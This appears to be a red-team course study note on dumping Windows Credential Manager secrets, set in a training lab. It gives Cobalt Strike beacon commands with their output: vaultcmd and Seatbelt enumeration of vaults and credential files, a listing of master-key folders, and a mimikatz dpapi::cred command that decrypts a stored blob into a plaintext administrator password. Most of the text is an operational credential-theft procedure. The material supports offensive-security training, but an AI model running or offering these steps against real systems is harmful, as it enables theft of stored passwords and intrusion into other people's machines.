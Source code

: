 Used by Windows [[DPAPI]]

Composed of two elements: Vault, Credentials.
Credentials are also called "encrypted blobs".

## 📔 Credentials

A "credential" is the actual encrypted credential blob.
 
## 🖊️ Vaults

A "vault" essentially holds records of encrypted credentials and a reference to the encrypted blobs.  Windows has two vaults: Web Credentials (for storing browser credentials) and Windows Credentials (for storing credentials saved by mstsc, etc).

To enumerate a user's vaults, you can use the native `vaultcmd` tool via [[Cobalt Strike]]:

```
beacon> run vaultcmd /list

Currently loaded vaults:
	Vault: Web Credentials
	Vault Guid:4BF4C442-9B8A-41A0-B380-DD4A704DDB28
	Location: C:\Users\bfarmer\AppData\Local\Microsoft\Vault\4BF4C442-9B8A-41A0-B380-DD4A704DDB28

	Vault: Windows Credentials
	Vault Guid:77BC582B-F0A6-4E15-4E80-61736B6F3B29
	Location: C:\Users\bfarmer\AppData\Local\Microsoft\Vault

beacon> run vaultcmd /listcreds:"Windows Credentials" /all

Credentials in vault: Windows Credentials

Credential schema: Windows Domain Password Credential
Resource: Domain:target=TERMSRV/sql-2.dev.cyberbotic.io
Identity: SQL-2\Administrator
Hidden: No
Roaming: No
Property (schema element id,value): (100,2)
```

#### Seatbelt

Another way to list vault's innformation is to use [[Seatbelt]] with the `-group=user` parameter, or more specifically, the `WindowsVault` parameter.

`beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe WindowsVault`

- Check for stored passwords in their location (credentials folder):

```
beacon> ls C:\Users\bfarmer\AppData\Local\Microsoft\Credentials
[*] Listing: C:\Users\bfarmer\AppData\Local\Microsoft\Credentials\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 468b     fil     09/06/2022 10:34:22   6C33AC85D0C4DCEAB186B3B2E5B1AC7C
 10kb     fil     08/30/2022 08:42:59   DFBE70A7E5CC19A398EBF1B96859CE5D

```

- Seatbelt can also enumerate them using the `WindowsCredentialFiles` parameter.
```
beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe WindowsCredentialFiles
```

Seatbelt also provides the GUID of the master key used to encrypt the credentials.  The master keys are stored in the users' roaming "Protect" directory. They're also encrypted.

`beacon> ls C:\Users\bfarmer\AppData\Roaming\Microsoft\Protect\S-1-5-21-569305411-121244042-2357301523-1104`

### 📔 decrypt Master Key

We must decrypt the master key first to obtain the actual AES128/256 encryption key, and then use that key to decrypt the credential blob.

- [[Decrypt Credential Manager Elevated Shell]]
- [[Decrypt Credential Manager Non-Elevated Shell]]

### 📔 decrypt credential blob

Once you obtain the master key decrypted, you can do:

```
beacon> mimikatz dpapi::cred /in:C:\Users\bfarmer\AppData\Local\Microsoft\Credentials\6C33AC85D0C4DCEAB186B3B2E5B1AC7C /masterkey:8d15395a4bd40a61d5eb6e526c552f598a398d530ecc2f5387e07605eeab6e3b4ab440d85fc8c4368e0a7ee130761dc407a2c4d58fcd3bd3881fa4371f19c214

  TargetName     : Domain:target=TERMSRV/sql-2.dev.cyberbotic.io
  UserName       : SQL-2\Administrator
  CredentialBlob : wIfY&cZ&d?QP9iMFEzckmj.34=@sg.*i
```


### ⚠ Opsec




### Properties
---
📆 created   {{18-02-2024}} 11:46
🏷️ tags: #redteam #crto 

---

